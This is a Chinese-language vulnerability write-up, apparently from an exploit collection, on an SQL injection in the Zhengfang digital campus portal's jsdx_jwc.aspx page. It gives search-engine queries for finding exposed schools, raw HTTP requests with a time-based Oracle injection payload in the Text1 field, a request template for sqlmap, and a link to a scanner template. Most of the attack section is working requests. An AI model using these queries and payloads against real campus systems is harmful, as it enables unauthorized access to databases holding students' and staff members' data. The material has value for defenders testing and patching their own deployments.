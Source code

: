 # 一、漏洞简介
正方数字化校园信息门户平台通过对校园现有的各种系统和资源的有效集成整合，以门户的形式为学校教师、学生提供其所需的各种信息与服务，来提高校园核心竞争力，是数字化校园的重要组成部分。正方数字化校园平台jsdx_jwc存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ hunter`(web.title="正方数字化校园信息门户"||web.title="数字化校园信息门户"||web.title="统一身份认证中心")&&web.body="正方"`、`web.body="zfca/login"&&web.body="login_bg"`
+ 特征

![](images/1702283487709-918c059e-9f97-4350-afe6-913323b0c83d.png)

# 四、漏洞复现
1. 获取`__VIEWSTATE`

```plain
GET /jsdx_jwc.aspx?url=js_jxrw.aspx&usertype=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

![](images/1711986801621-a2e06336-d9c9-4a12-bf33-cee15d16d348.png)

2. 使用获取的`__VIEWSTATE`替换测试注入

```plain
POST /jsdx_jwc.aspx?url=js_jxrw.aspx&usertype=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: ASP.NET_SessionId=y40w2d454fi1155532uqfx45
Content-Length: 132

__VIEWSTATE=dDw1ODA1MTY0Nzs7PuxuvqiSIrs3wcYFy1qakqRKiR1M&__VIEWSTATEGENERATOR=&Text1=123%27+AND+1655%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%28107%29%7C%7CCHR%28103%29%7C%7CCHR%2877%29%7C%7CCHR%2890%29%2C5%29+AND+%27nBHe%27%3D%27nBHe&Text2=admin&Button1=%E7%99%BB %E5%BD%95
```

![](images/1711986853491-9b0efc2e-5fe1-4ba5-9103-1aa4595dc112.png)

sqlmap

```plain
POST /jsdx_jwc.aspx?url=js_jxrw.aspx&usertype=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: ASP.NET_SessionId=y40w2d454fi1155532uqfx45
Content-Length: 128

__VIEWSTATE=dDw1ODA1MTY0Nzs7PuxuvqiSIrs3wcYFy1qakqRKiR1M&__VIEWSTATEGENERATOR=&Text1=123&Text2=admin&Button1=%E7%99%BB+%E5%BD%95
```

![](images/1711986877696-dc885e38-d305-47db-b22a-9b40cc0b1d2c.png)

[zfca-jsdx_jwc-sqli.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/29512878/1729561112407-ee632087-0402-4bee-9164-9dfa9c555c17.yaml)

